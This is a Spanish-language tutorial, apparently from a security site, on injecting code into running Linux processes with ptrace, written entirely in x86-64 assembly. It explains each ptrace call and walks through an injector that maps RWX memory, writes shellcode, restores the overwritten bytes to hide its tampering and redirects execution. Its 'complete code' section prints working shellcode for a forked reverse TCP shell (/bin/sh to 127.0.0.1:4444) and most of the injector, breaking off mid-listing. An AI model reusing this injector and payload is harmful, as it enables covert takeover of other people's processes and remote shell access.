

# Process Injection via Ptrace

Inyección de código en procesos Linux usando `ptrace`, implementado completamente en ensamblador x86-64. Sin dependencias.

---

!!! danger "Uso responsable"
    El contenido de este sitio web se publica **exclusivamente con fines educativos e informativos**. El autor **no promueve, respalda ni se hace responsable** del uso indebido o ilegal de la información aquí expuesta. Cualquier acción realizada a partir de este contenido debe llevarse a cabo **únicamente** en entornos controlados, sistemas propios o **con autorización expresa y verificable** del propietario del sistema.

## Introducción

En esta técnica un proceso (*tracer*) toma el control de otro proceso en ejecución (*tracee*) para inyectar y ejecutar código arbitrario dentro de su espacio de direcciones. En Linux, el mecanismo que lo hace posible es la syscall `ptrace`, la misma que utilizan internamente depuradores como GDB o herramientas de trazado como strace.

La idea general es sencilla, adjuntarnos al proceso víctima, pausar su ejecución, reservar memoria ejecutable dentro de su espacio de direcciones, copiar nuestro shellcode en esa memoria y redirigir el flujo de ejecución hacia él.

La explotación constará de **dos componentes**:

- **`proc_inj.asm`**: El programa inyector. Se encarga de adjuntarse al proceso víctima, reservar memoria, copiar el shellcode y redirigir la ejecución.
- **`proc_inj_rev_tcp.asm`**: Se convertirá en el shellcode que será inyectado. En este caso, será una reverse shell TCP modificada que, tras la inyección, hace que el proceso padre retome a su ejecución rutinaria mientras el proceso hijo (nuevo) establece la conexión reversa.

## La syscall `PTRACE`

Todas las operaciones relevantes sobre el proceso víctima se realizan a través de la syscall `ptrace` (process trace) (número 101 en x86-64). Aunque fue diseñada originalmente para implementar depuradores y herramientas de diagnóstico, su capacidad de manipular completamente la ejecución de un proceso la convierte también en un vector de ataque.

A nivel de kernel, cuando un proceso se vincula a otro mediante `ptrace`, se establece una relación especial entre ambos. El kernel marca al *tracee* con un flag interno (`PT_PTRACED`) indicando que está siendo trazado. A partir de ese momento, ciertos puntos de ejecución pasan a estar mediados por el *tracer*. Cuando el *tracee* alcanza uno de estos puntos, en lugar de continuar su ejecución normal, el kernel lo detiene y coloca en un estado de pausa controlada (ptrace-stop), donde permanece suspendido hasta que el *tracer* decida reanudarlo.

El *tracer* es notificado de estas paradas mediante el mecanismo `wait*`, que reutiliza el sistema estándar de espera entre procesos de Linux para indicarle la razón de la detención. Mientras el *tracee* está detenido, el *tracer* puede inspeccionar o modificar su estado completo (registros/memoria) y decidir cómo continuar la ejecución.

### ¿Qué permite hacer ptrace?

Las capacidades que permite `ptrace` sobre el proceso *tracee* son las siguientes:

- **Leer y escribir memoria**: Acceso directo al espacio de direcciones del *tracee*. Permite examinar el código que está ejecutando, inspeccionar variables en el stack o el heap y escribir datos o instrucciones en cualquier dirección mapeada.
- **Leer y escribir registros del CPU**: Acceso completo a todos los registros del procesador. Esto permite conocer exactamente en qué punto de ejecución se encuentra el *tracee* y manipular el flujo de control modificando el instruction pointer y/o los argumentos de las syscalls.
- **Controlar la ejecución instrucción por instrucción**: Con operaciones como `PTRACE_SINGLESTEP`, el *tracer* puede ejecutar exactamente una instrucción del *tracee* y detenerlo de nuevo, permitiendo observar los cambios que produce cada instrucción individual.
- **Interceptar syscalls**: El *tracer* puede ser notificado cada vez que el *tracee* entra o sale de una syscall, permitiendo inspeccionar o modificar los argumentos y valores de retorno. Esta es la base de herramientas como `strace`.
- **Interceptar señales**: El *tracer* recibe las señales dirigidas al *tracee* antes de que este las procese, pudiendo suprimirlas, modificarlas o inyectar señales nuevas.

### Argumentos de Entrada

```nasm
rax = 101        ; número de syscall (__NR_ptrace)
rdi = request    ; operación (PTRACE_*)
rsi = pid        ; PID del proceso objetivo
rdx = addr       ; dirección (puntero)
r10 = data       ; dato/dirección (puntero)
```

Las operaciones de `ptrace` usadas son:

| Operación | Valor | Descripción |
| --- | --- | --- |
| `PTRACE_ATTACH` | 16 | El *tracer* se adjunta al proceso con PID indicado en `pid`. El kernel envía `SIGSTOP` al *tracee*. Se requiere `wait4` para esperar la detención efectiva. |
| `PTRACE_PEEKDATA` | 2 | Lee 8 bytes de la memoria del *tracee* en la dirección `addr`. El valor leído se almacena en la dirección apuntada por `data`. |
| `PTRACE_POKEDATA` | 5 | Escribe el valor de `data` (8 bytes) en la memoria del *tracee* en la dirección `addr`. |
| `PTRACE_SINGLESTEP` | 9 | Reanuda la ejecución del *tracee* pero lo detiene de nuevo tras ejecutar **una sola instrucción**. Requiere `wait4` después para sincronizarse. |
| `PTRACE_GETREGS` | 12 | Copia todos los registros del CPU del *tracee* en un buffer proporcionado por el *tracer* (a través de `data`), siguiendo el layout de `user_regs_struct`. |
| `PTRACE_SETREGS` | 13 | Establece todos los registros del CPU del *tracee* desde un buffer proporcionado por el *tracer* (a través de `data`). |
| `PTRACE_DETACH` | 17 | El *tracer* se desadjunta del *tracee*, eliminando el flag `PT_PTRACED`. El que era el *tracee* reanuda su ejecución. |

### Estructura `user_regs_struct`

Cuando se usa `PTRACE_GETREGS` o `PTRACE_SETREGS`, se trabaja con una estructura de **27 campos de 8 bytes** (216 bytes en total) que contiene **todos los registros del CPU**. El orden de los campos y sus offsets es fundamental para manipular registros específicos:

| Offset | Registro |
| --- | --- |
| `0x00` | `R15` |
| `0x08` | `R14` |
| `0x10` | `R13` |
| `0x18` | `R12` |
| `0x20` | `RBP` |
| `0x28` | `RBX` |
| `0x30` | `R11` |
| `0x38` | `R10` |
| `0x40` | `R9` |
| `0x48` | `R8` |
| `0x50` | `RAX` |
| `0x58` | `RCX` |
| `0x60` | `RDX` |
| `0x68` | `RSI` |
| `0x70` | `RDI` |
| `0x78` | `ORIG_RAX` |
| `0x80` | `RIP` |
| `0x88` | `CS` |
| `0x90` | `EFLAGS` |
| `0x98` | `RSP` |
| `0xA0` | `SS` |
| `0xA8` | `FS_BASE` |
| `0xB0` | `GS_BASE` |
| `0xB8` | `DS` |
| `0xC0` | `ES` |
| `0xC8` | `FS` |
| `0xD0` | `GS` |

## Explicación del inyector paso a paso

### Sección de datos

La sección `.data` del inyector contiene el shellcode. Este shellcode es la versión compilada de `proc_inj_rev_tcp.asm` (explicado más adelante en este artículo), pero podría ser el que el atacante quisiera.

La sección `.bss` reserva tres buffers de 216 bytes cada uno (27 registros x 8 bytes):

- **`regs`**: Buffer de trabajo donde se cargan y modifican los registros del *tracee*.
- **`regs_ori`**: Copia de respaldo de los registros originales del *tracee*.
- **`regs_sys`**: Buffer auxiliar para capturar el resultado de la syscall `mmap` ejecutada en el *tracee*.

### Attach y Detención del proceso

El PID del proceso objetivo se almacena previamente en un registro.

```nasm
; 1 Attach y detención del proceso

    ; PTRACE_ATTACH
    mov rax, 101
    mov rdi, 16          ; PTRACE_ATTACH (0x10)
    mov rsi, r15         ; PID
    xor rdx,rdx          ; addr
    xor r10, r10         ; data
    syscall

    ; WAIT4: 
        ; Cuando se hace PTRACE_ATTACH, el kernel envía SIGSTOP al proceso objetivo. 
        ; Es necesario llamar a wait4 para bloquear al tracer hasta que el proceso tracee  
        ; esté efectivamente detenido antes de poder manipularlo.

        mov rax, 61
        mov rdi, r15            ; PID a esperar (-1 para cualquier hijo)
        sub rsp, 8
        mov rsi, rsp            ; &status
        xor rdx, rdx            ; options
        xor r10, r10            ; rusage
        syscall
```

El primer paso es **adjuntarse al proceso víctima** usando `PTRACE_ATTACH` (operación 16). 

Cuando el kernel recibe esta solicitud, envía una señal `SIGSTOP` al proceso *tracee*, lo que provoca su detención. Sin embargo, esta detención **no es instantánea,** el proceso necesita tiempo para procesar la señal y detenerse efectivamente. Por eso es imprescindible llamar a `wait4` (syscall número 61) inmediatamente después. Esta llamada **bloquea al *tracer*** hasta que el *tracee* esté completamente detenido y listo para ser manipulado.

> Sin la ejecución de la syscall `wait4`, cualquier operación posterior sobre el *tracee* podría fallar o producir resultados impredecibles porque el proceso aún no estaría en un estado estable.

### Preservación del contexto de ejecución

```nasm
; 2 Preservación del contexto de ejecución

    ; PTRACE_GETREGS
    mov rax, 101
    mov rdi, 12   ; PTRACE_GETREGS
    mov rsi, r15  ; PID
    xor rdx, rdx  ; addr
    lea r10, [rel regs] ; puntero al buffer donde se va almacenar la estructura de registros
    syscall

    ; Copia de los registros originales del traceee en el buffer de backup
    lea rsi, [rel regs]       ; RSI se usa como puntero de origen y va avanzando
    lea rdi, [rel regs_ori]   ; RDI se usa como puntero destino y va avanzando

    mov rcx, 27               ; RCX se usa como contador y se va decrementando hasta 0
    cld                       ; DF=0 (dirección de copia ascendente)
    rep movsq                 ; mueve RCX qwords: [RSI] -> [RDI]

                    ; movsq copia un qword (8 bytes) desde la dirección apuntada por RSI hacia la dirección apuntada por RDI   
                    ; rep repite esa operación RCX veces
```

Con `PTRACE_GETREGS` (operación 12) obtenemos una instantánea completa de todos los registros del CPU del proceso *tracee* en el momento de su detención. Esta información se almacenará en el buffer siguiendo la arquitectura de `user_regs_struct`.

A continuación, se realiza una **copia de respaldo** de esta estructura en otro buffer. Este backup es crítico porque durante el proceso de inyección vamos a **modificar los registros del *tracee*** para ejecutar una syscall en su contexto. Sin esta copia, no podríamos restaurar el estado original del proceso después de la inyección.

### Inyección de la instrucción syscall

```nasm
; 3 Inyección de la instrucción syscall (0x0f 0x05)

    mov r12, [regs+0x80]   ; Contenido del RIP del proceso tracee (dirección de la próxima instrucción a ejecutar)

    ; PTRACE_PEEKDATA (leer memoria) Se leen 8 bytes a partir de la dirección actual a la que apunta el RIP del proceso tracee
    mov rax, 101
    mov rdi, 2       ; PTRACE_PEEKDATA
    mov rsi, r15     ; PID
    mov rdx, r12     ; addr
    sub rsp, 8       ; 8 bytes
    mov r10, rsp     ; puntero a data (direccion donde se almacenará la info leída)
    syscall 

    mov r11, [rsp] ; En r11 y en el tope del stack se encuentra el valor al que apunta RIP del tracee
    mov r13, r11 ; Backup del valor original
    and r11, 0xFFFFFFFFFFFF0000 ; limpiar los 2 bytes bajos
    or r11, 0x000000000000050F  ; insertar syscall (0x0f 0x05 en little-endian)

    ; PTRACE_POKEDATA (escribir en memoria)
    mov rax, 101
    mov rdi, 5     ; PTRACE_POKEDATA
    mov rsi, r15   ; PID
    mov rdx, r12   ; addr 
    mov r10, r11   ; valor de 8 bytes a escribir
    syscall
```

Aquí es donde comienza la parte interesante. El primer objetivo es **hacer que el proceso *tracee* ejecute una syscall en particular,** concretamente `mmap`,  para reservar memoria ejecutable en el heap del proceso, este será el espacio que ocupará nuestro shellcode. Para ello, necesitamos que en la dirección a la que apunta el `RIP` del *tracee* exista una instrucción `syscall` (opcode `0x0F 0x05`).

El proceso es el siguiente:

1. Se extrae la dirección actual a la que apunta el registro `RIP` del *tracee* desde el buffer de registros (`regs+0x80`). Esta es la dirección de la próxima instrucción que el *tracee* iba a ejecutar antes de ser detenido.
2. Con `PTRACE_PEEKDATA` (operación 2) se leen los 8 bytes que hay en esa dirección de memoria del *tracee*. Estos bytes son instrucciones que el *tracee* estaba a punto de ejecutar.
3. Se guarda una copia del valor original (lo necesitaremos después para restaurar). Luego se modifican **solo los 2 bytes menos significativos** del valor leído, reemplazándolos por `0x0F 0x05` (el opcode de la instrucción `syscall` en x86-64). La máscara `AND 0xFFFFFFFFFFFF0000` limpia los 2 bytes bajos y el `OR 0x050F` inserta el opcode en little-endian.
4. Con `PTRACE_POKEDATA` (operación 5) se escribe el valor modificado de vuelta en la memoria del *tracee*, sobreescribiendo temporalmente las instrucciones originales con una instrucción `syscall`.

### Configuración de registros para `MMAP`

```nasm
; 4 Configuración de registros para MMAP

    ; MMAP

        mov qword [regs+0x50], 9       ; (RAX) Se sustituye todo el valor del registro       Número de syscall para mmap
        mov qword [regs+0x70],0        ; (RDI)       rdi = addr = 0 (NULL) → Pide al kernel que elija la dirección
        mov qword [regs+0x68],4096     ; (RSI)       rsi = length = 4096 bytes (1 página típica)
        mov qword [regs+0x60],7        ; (RDX)       rdx = prot = 7 => PROT_READ(1) | PROT_WRITE(2) | PROT_EXEC(4)
        mov qword [regs+0x38],34       ; (R10)       r10 = flags = 34 => MAP_PRIVATE(0x2) | MAP_ANONYMOUS(0x20)
        mov qword [regs+0x48],-1       ; (R8)        r8 = fd = -1 (usado con MAP_ANONYMOUS; -1 indica "no file")
        mov qword [regs+0x40],0        ; (R9)        r9 = offset = 0 (desplazamiento en el fd; irrelevante con ANONYMOUS)
    
    ; PTRACE_SETREGS
        mov rax, 101
        mov rdi, 13    ; PTRACE_SETREGS
        mov rsi, r15   ; PID
        xor rdx, rdx   ; addr
        lea r10, [rel regs] ; puntero al buffer donde se encuentra la estructura de registros
        syscall
```

Ahora que tenemos una instrucción `syscall` lista en el punto de ejecución del *tracee*, necesitamos **configurar sus registros** para que esa syscall ejecute exactamente lo que queremos, una llamada a `mmap` que reserve una página de memoria con permisos de lectura, escritura y ejecución (RWX).

Los registros se modifican directamente en nuestro buffer usando los offsets correspondientes y luego se aplican los cambios en el *tracee* con `PTRACE_SETREGS`:

```nasm
rax = 9          ; número de syscall (mmap)
rdi = addr       ; dirección sugerida (0 = el kernel elige)
rsi = length     ; tamaño del mapeo en bytes
rdx = prot       ; protecciones: PROT_READ|PROT_WRITE|PROT_EXEC...
r10 = flags      ; MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED...
r8  = fd         ; descriptor (si MAP_ANONYMOUS, típicamente -1)
r9  = offset     ; offset en el fichero (en bytes, múltiplo de página)
```

La combinación `MAP_PRIVATE | MAP_ANONYMOUS` indica al kernel que cree una región de memoria privada, no respaldada por ningún archivo en disco. Los permisos **RWX** son necesarios porque vamos a **escribir** el shellcode en esta región y luego **ejecutarlo**.

### Ejecución controlada de la syscall `MMAP`

```nasm
; 5 Ejecución controlada de la syscall MMAP

    ;PTRACE_SINGLESTEP
    mov rax, 101
    mov rdi, 9       ; PTRACE_SINGLESTEP
    mov rsi, r15     ; PID
    xor rdx, rdx     ; addr
    xor r10, r10     ; data
    syscall

    ; WAIT4: 
    mov rax, 61
    mov rdi, r15            ; PID a esperar (-1 para cualquier hijo)
    sub rsp, 8
    mov rsi, rsp            ; &status
    xor rdx, rdx            ; options
    xor r10, r10            ; rusage
    syscall

    ; PTRACE_GETREGS
    mov rax, 101
    mov rdi, 12   ; PTRACE_GETREGS
    mov rsi, r15  ; PID
    xor rdx, rdx  ; addr
    lea r10, [rel regs_sys] ; puntero al buffer donde se va almacenar la estructura de registros
    syscall
    
  ; 6 Obtención del resultado de la syscall MMAP
    xor r12, r12 
    mov r12, [regs_sys+0x50]       ; (RAX) dirección donde comienza la zona de memoria reservada com permisos RWX
```

Con los registros del *tracee* configurados y la instrucción `syscall` en su lugar, usamos `PTRACE_SINGLESTEP` (operación 9) para **ejecutar exactamente una instrucción** en el contexto del *tracee*. Esa instrucción es el `syscall` que inyectamos en el paso 3, que con los registros modificados del paso 4, ejecutará `mmap`.

Posteriormente, usamos `PTRACE_GETREGS` para obtener el estado de los registros **después** de la ejecución de la syscall. El valor de retorno de `mmap` quedará almacenado en el registro `RAX` del tracee. Este valor es la **dirección base de la nueva región de memoria con permisos RWX** que el kernel ha asignado dentro del espacio de direcciones del proceso objetivo.

> El motivo de usar un buffer diferente es simple, `regs` ya fue modificado en el paso 4 (los registros para el `mmap`) y `regs_ori` contiene los registros originales que necesitamos preservar intactos. `regs_sys` nos permite capturar el resultado de `mmap` sin contaminar ninguno de los dos.

### Restauración del contenido en la dirección apuntada por `RIP`

```nasm
; 7 Restauración del contenido ubicado en la dirección a la que apunta el registro RIP del tracee

        xor r14, r14
        mov r14, [regs_ori+0x80]

        ; PTRACE_POKEDATA (escribir en memoria)
        mov rax, 101
        mov rdi, 5     ; PTRACE_POKEDATA
        mov rsi, r15   ; PID
        mov rdx, r14   ; addr 
        mov r10, r13   ; valor de 8 bytes a escribir
        syscall
```

En el paso 3, sobreescribimos los bytes originales ubicados en la dirección apuntada por el registro `RIP`. Ahora que ya ejecutamos `mmap`, es momento de **restaurar esos bytes originales** para no dejar rastro de nuestra manipulación.

Se obtiene la dirección original del `RIP` desde `regs_ori+0x80` y se usa `PTRACE_POKEDATA` para escribir de vuelta el valor original. Tras esta operación, la memoria del *tracee* en ese punto vuelve a contener exactamente las mismas instrucciones que tenía antes de la intervención.

### Restauración de los registros originales

```nasm
; 8 Restauración de los registros originales del proceso tracee
        ; PTRACE_SETREGS
        mov rax, 101
        mov rdi, 13    ; PTRACE_SETREGS
        mov rsi, r15   ; PID
        xor rdx, rdx   ; addr
        lea r10, [rel regs_ori] ; puntero al buffer donde se encuentra la estructura de registros
        syscall
```

Con `PTRACE_SETREGS` se restauran **todos los registros** del *tracee* a su estado original usando el backup `regs_ori`. Esto devuelve al *tracee* a exactamente el mismo estado en el que se encontraba cuando lo detuvimos.

Esto es importante porque en los pasos posteriores vamos a modificar selectivamente solo el registro `RIP` (para redirigir la ejecución al shellcode) y el `orig_rax` (para evitar el reinicio de syscalls). 

### Almacenamiento del `RIP` de retorno

```nasm
; 9 Almacenamiento del RIP de retorno en los últimos 8 bytes de la región de memoria reservada por MMAP

        ; PTRACE_POKEDATA (escribir en memoria)
        mov rax, 101
        mov rdi, 5     ; PTRACE_POKEDATA
        mov rsi, r15   ; PID
        lea rdx, [r12+4088]   ; addr 
        mov r10, r14   ; valor de 8 bytes a escribir
        syscall
```

Este paso es clave para que la inyección sea **transparente,** el proceso *tracee* debe poder retomar su ejecución después de que el shellcode haga su trabajo.

La región de memoria reservada por `mmap` tiene 4096 bytes (según lo asignado en los argumentos de entrada). El shellcode se escribirá desde el inicio de esta región, pero los **últimos 8 bytes** (`offset +4088`) se reservarán para almacenar la **dirección de retorno (**el valor original del registro  `RIP` del *tracee*).

Cuando el shellcode se ejecute en el contexto del *tracee*, hará `fork` (crea un **proceso hijo** duplicando el proceso actual). El proceso hijo ejecutará la reverse shell, pero el **proceso padre** necesita saber a dónde volver. El padre leerá esta dirección desde `[_start + 4088]` (que equivale a `mmap_base + 4088`) y saltará a ella, retomando la ejecución exactamente donde se había detenido.

```
Región RWX (4096 bytes):
┌──────────────────────────────────────────────────┬──────────┐
│              Shellcode (bytes 0..4087)           │ RIP ret  │
│                                                  │ (8 bytes)│
│  _start → fork, setsid, socket, connect...       │ 4088-4095│
└──────────────────────────────────────────────────┴──────────┘
                                                    ▲
                                                    │
                                        El padre lee esta
                                        dirección y salta
```

### Inyección del Shellcode

```nasm
; 10 Inyección del shellcode en la zona de memoria reservada (PTRACE_POKEDATA escribe 8 bytes)

    xor r13,r13
    lea r13, [rel shellcode]   ; puntero al shellcode
    xor r14, r14
    mov r14, sc_len / 8        ; contador de palabras a escribir
    push r12

    .loop_inj:

        cmp r14, 0     ; compara el contador de palabras a escribir con 0
        jz .done       ; si contador == 0, saltar a .done

        ; PTRACE_POKEDATA
        mov rax, 101
        mov rdi, 5     ; PTRACE_POKEDATA
        mov rsi, r15   ; PID
        mov rdx, r12   ; addr 
        mov r10, [r13] ; valor de 8 bytes a escribir
        syscall

        add r12, 8
        add r13, 8
        dec r14
        jmp .loop_inj
```

Ahora se copia el shellcode completo en la región de memoria reservada. Dado que `PTRACE_POKEDATA` escribe **exactamente 8 bytes por llamada**, debemos iterar `sc_len / 8` veces (longitud del shellcode dividida entre 8).

En cada iteración:

- `r13` apunta a la posición actual dentro del shellcode (en el espacio del tracer).
- `r12` apunta a la posición actual dentro de la región generada por `mmap` (en el espacio del *tracee*).
- Se leen 8 bytes desde `[r13]` y se escriben en `[r12]` del *tracee*.
- Ambos punteros avanzan 8 bytes y el contador `r14` se decrementa.

> El shellcode está **alineado a 8 bytes** (se añaden bytes `0x90` (NOP) al final si es necesario) para que la última escritura de `PTRACE_POKEDATA` no se salga de los límites del shellcode.

### Redirigir ejecución al inicio del shellcode y detach

```nasm
; 11 Redirigir ejecución al inicio del shellcode

.done

        pop r12

        mov qword [regs_ori+0x80], r12   ; RIP == dirección del inicio de la memoria reservada == inicio del shellcode
        mov qword [regs_ori+0x78], -1    ; orig_rax = -1 (evita syscall restart)

        ; PTRACE_SETREGS
        mov rax, 101
        mov rdi, 13    ; PTRACE_SETREGS
        mov rsi, r15   ; PID
        xor rdx, rdx   ; addr
        lea r10, [rel regs_ori] ; puntero al buffer donde se encuentra la estructura de registros
        syscall

; 12 Detach del tracee

    ; PTRACE_DETACH
    mov rax, 101
    mov rdi, 17    ; PTRACE_DETACH
    mov rsi, r15   ; PID
    xor rdx, rdx   ; addr
    xor r10, r10   ; signal = 0 (no enviar señal)
    syscall

    ; EXIT
    mov rax, 60
    xor rdi,rdi 
    syscall
```

Con el shellcode ya en su lugar, se realizan las modificaciones finales antes de liberar al *tracee*.

Se modifica el campo `RIP` en la estructura de registros para que apunte al inicio de la región definida por `mmap`, que es donde comienza el shellcode previamente inyectado. Cuando el *tracee* reanude su ejecución, lo hará desde la primera instrucción del shellcode.

Se establece el valor de `orig_rax`, usado internamente por el kernel para el mecanismo de **syscall restart**. Si el *tracee* fue detenido durante una syscall interrumpida, el kernel podría intentar re-ejecutarla automáticamente al reanudar. Establecer `orig_rax = -1` le dice al kernel que **no hay ninguna syscall pendiente de reinicio**, evitando comportamientos inesperados.

**Se aplican los registros modificados** con `PTRACE_SETREGS`.

**Se libera al *tracee*** con `PTRACE_DETACH` (operación 17). Esto reanuda la ejecución del proceso, que ahora comenzará a ejecutar el shellcode inyectado.

## El shellcode: Reverse TCP shell

El shellcode inyectado (`proc_inj_rev_tcp.asm`) no es una reverse shell convencional. Está diseñado específicamente para el contexto de inyección en procesos, con dos características clave:

- **`fork`**: Crea un proceso hijo que ejecuta la reverse shell, mientras el proceso padre retoma la ejecución normal del *tracee*.
- **`setsid`**: El proceso hijo crea una nueva sesión, desvinculándose del terminal y del grupo de procesos del padre.

### Flujo del proceso Padre

```nasm
; FORK
    mov rax, 57
    syscall

    cmp rax, 0           ; si rax==0 se trata del hijo
    jz .child            

    lea r11, [rel _start] ; r11 = dirección de _start = mmap_base = RIP inicial del shellcode

    ; Proceso Padre
    mov r14, [r11+4088] ; Obtiene dirección de retorno
    jmp r14             ; Salta a la dirección de retorno sobreescribiendo el registro RIP
```

Tras el `fork`, el proceso padre necesita volver al punto exacto donde fue interrumpido. Para ello, obtiene la dirección base del shellcode en memoria (que coincide con el inicio de la región definida tras `mmap`). Sumando 4088 obtiene la posición donde el inyector almacenó la dirección de retorno original (paso 9). Finalmente, haciendo uso de la syscall `jmp` se salta a esa dirección, retomando su ejecución como si nada hubiera pasado.

Se utiliza `r11` intencionalmente porque es un **clobbered register**. Por tanto, al usar `r11` nos aseguramos de **no modificar ningún registro funcional** del proceso *tracee* que pudiera afectar a su ejecución futura.

### Flujo del proceso Hijo

```nasm
.child

    ; SETSID
    mov rax, 112
    syscall

    ; SOCKET → CONNECT → DUP2 → EXECVE
```

El proceso hijo invoca a la syscall `setsid` (syscall número 112) para crear una nueva sesión. Esto lo desvincula del terminal controlador y del grupo de procesos del padre, haciendo que la reverse shell sea **independiente** del proceso original.

Tras esto, se ejecuta la secuencia estándar de una reverse TCP shell, explicada en el artículo [Reverse TCP Shell](reverse-shell.md).

## Código completo

### `proc_inj.asm` (inyector)

```nasm
section .data
shellcode:
    db 0xb8, 0x39, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48
    db 0x83, 0xf8, 0x00, 0x74, 0x11, 0x4c, 0x8d, 0x1d
    db 0xec, 0xff, 0xff, 0xff, 0x4d, 0x8b, 0xb3, 0xf8
    db 0x0f, 0x00, 0x00, 0x41, 0xff, 0xe6, 0xb8, 0x70
    db 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x29, 0x00
    db 0x00, 0x00, 0xbf, 0x02, 0x00, 0x00, 0x00, 0xbe
    db 0x01, 0x00, 0x00, 0x00, 0x48, 0x31, 0xd2, 0x0f
    db 0x05, 0x49, 0x89, 0xc0, 0xb8, 0x2a, 0x00, 0x00
    db 0x00, 0x4c, 0x89, 0xc7, 0x4d, 0x31, 0xc9, 0x41
    db 0x51, 0x49, 0xba, 0x02, 0x00, 0x11, 0x5c, 0x7f
    db 0x00, 0x00, 0x01, 0x41, 0x52, 0x48, 0x89, 0xe6
    db 0xba, 0x10, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48
    db 0x31, 0xf6, 0xb8, 0x21, 0x00, 0x00, 0x00, 0x4c
    db 0x89, 0xc7, 0x0f, 0x05, 0x48, 0xff, 0xc6, 0x48
    db 0x83, 0xfe, 0x03, 0x7c, 0xed, 0xb8, 0x3b, 0x00
    db 0x00, 0x00, 0x6a, 0x00, 0x49, 0xbc, 0x2f, 0x62
    db 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x41, 0x54
    db 0x48, 0x89, 0xe7, 0x6a, 0x00, 0x48, 0x89, 0xe6
    db 0x6a, 0x00, 0x48, 0x89, 0xe2, 0x0f, 0x05, 0xb8
    db 0x3c, 0x00, 0x00, 0x00, 0x48, 0x31, 0xff, 0x0f
    db 0x05, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90
sc_len equ $ - shellcode
    
section .bss
    regs resq 27  ; sizeof(user_regs_struct) en x86_64  (27x8 bytes)
    regs_ori resq 27
    regs_sys resq 27 

section .text
global _start
_start:

    ; PID
    mov r15, 2120

; 1 Attach y detención del proceso:

    ; PTRACE_ATTACH
    mov rax, 101
    mov rdi, 16          ; PTRACE_ATTACH (0x10)
    mov rsi, r15         ; PID
    xor rdx,rdx          ; addr
    xor r10, r10         ; data
    syscall

    ; WAIT4: 
        ; Cuando se hace PTRACE_ATTACH, el kernel envía SIGSTOP al proceso objetivo. 
        ; Es necesario llamar a wait4 para bloquear al tracer hasta que el proceso tracee  
        ; esté efectivamente detenido antes de poder manipularlo.

        mov rax, 61
        mov rdi, r15            ; PID a esperar (-1 para cualquier hijo)
        sub rsp, 8
        mov rsi, rsp            ; &status
        xor rdx, rdx            ; options
        xor r10, r10            ; rusage
        syscall

; -----------------------------------------

; 2 Preservación del contexto de ejecución

    ; PTRACE_GETREGS
    mov rax, 101
    mov rdi, 12   ; PTRACE_GETREGS
    mov rsi, r15  ; PID
    xor rdx, rdx  ; addr
    lea r10, [rel regs] ; puntero al buffer donde se va almacenar la estructura de registros
    syscall
    
    ; En este punto, regs contiene:
    ; 0x00  r15
    ; 0x08  r14
    ; 0x10  r13
    ; 0x18  r12
    ; 0x20  rbp
    ; 0x28  rbx
    ; 0x30  r11
    ; 0x38  r10
    ; 0x40  r9
    ; 0x48  r8
    ; 0x50  rax
    ; 0x58  rcx
    ; 0x60  rdx
    ; 0x68  rsi
    ; 0x70  rdi
    ; 0x78  orig_rax
    ; 0x80  rip
    ; 0x88  cs
    ; 0x90  eflags
    ; 0x98  rsp
    ; 0xA0  ss
    ; 0xA8  fs_base
    ; 0xB0  gs_base
    ; 0xB8  ds
    ; 0xC0  es
    ; 0xC8  fs
    ; 0xD0  gs

    ; Copia de los registros originales del traceee en el buffer de backup
    lea rsi, [rel regs]       ; RSI se usa como puntero de origen y va avanzando
    lea rdi, [rel regs_ori]   ; RDI se usa como puntero destino y va avanzando

    mov rcx, 27               ; RCX se usa como contador y se va decrementando hasta 0
    cld                       ; DF=0 (dirección de copia ascendente)
    rep movsq                 ; mueve RCX qwords: [RSI] -> [RDI]

                    ; movsq copia un qword (8 bytes) desde la dirección apuntada por RSI hacia la dirección apuntada por RDI   
                    ; rep repite esa operación RCX veces

; -----------------------------------------

; 3 Inyección de la instrucción syscall (0x0f 0x05)

    mov r12, [regs+0x80]   ; Contenido del RIP del proceso tracee (dirección de la próxima instrucción a ejecutar)

    ; PTRACE_PEEKDATA (leer memoria) Se leen 8 bytes a partir de la dirección actual a la que apunta el RIP del proceso tracee
    mov rax, 101
    mov rdi, 2       ; PTRACE_PEEKDATA
    mov rsi, r15     ; PID
    mov rdx, r12     ; addr
    sub rsp, 8       ; 8 bytes
    mov r10, rsp     ; puntero a data (direccion donde se almacenará la info leída)
    syscall 

    mov r11, [rsp] ; En r11 y en el tope del stack se encuentra el valor al que apunta RIP del tracee
    mov r13, r11 ; Backup del valor original
    and r11, 0xFFFFFFFFFFFF0000 ; limpiar los 2 bytes bajos
    or r11, 0x000000000000050F  ; insertar syscall (0x0f 0x05 en little-endian)

    ; PTRACE_POKEDATA (escribir en memoria)
    mov rax, 101
    mov rdi, 5     ; PTRACE_POKEDATA
    mov rsi, r15   ; PID
    mov rdx, r12   ; addr 
    mov r10, r11   ; valor de 8 bytes a escribir
    syscall

; -----------------------------------------

; 4 Configuración de registros para MMAP

    ; MMAP

